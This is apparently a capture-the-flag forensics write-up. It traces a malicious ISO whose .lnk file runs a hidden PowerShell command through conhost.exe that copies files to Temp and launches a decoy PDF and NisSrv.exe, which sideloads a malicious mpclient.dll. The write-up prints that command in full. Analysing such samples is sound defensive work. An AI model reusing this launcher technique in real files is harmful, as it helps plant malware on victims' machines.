 We are given an AD1 image and an ISO file. Analyzing the ISO file, there seems to be an lnk file. In it, there is a powershell command that shows `conhost.exe` running the malware.

```
"C:\Windows\System32\conhost.exe" --headless "%WINDIR%\System32\WindowsPowerShell\v1.0\powershell.exe" "$zweeki=$env:Temp;$ocounselk=[System.IO.Path]::GetFullPath($zweeki);$poledemy = $pwd;Copy-Item "$poledemy\*" -Destination $ocounselk -Recurse -Force | Out-Null;cd $ocounselk;;.\Facture.pdf; .\NisSrv.exe"
```

![link1](/assets/posts/gccctf2024/link1.png)

Next, we analyzed the AD1 image to find the malware, specifically `Facture.pdf` and `NisSrv.exe`. Since I had many cases about hackers saving their malicious files in a Temp folder, we navigated to `C:\Users\user\AppData\Temp\` . Inside the folder, the two suspicious files can be found with other temporary files.

![link2](/assets/posts/gccctf2024/link2.png)

After extracting and running `NisSrv.exe` on our virtual machine, it said that it requires `mpclient.dll` to run. Since the ``mpclient.dll`` was in the Temp folder already, we can extract it and upload it to VirusTotal. Surprisingly, it was very malicious.
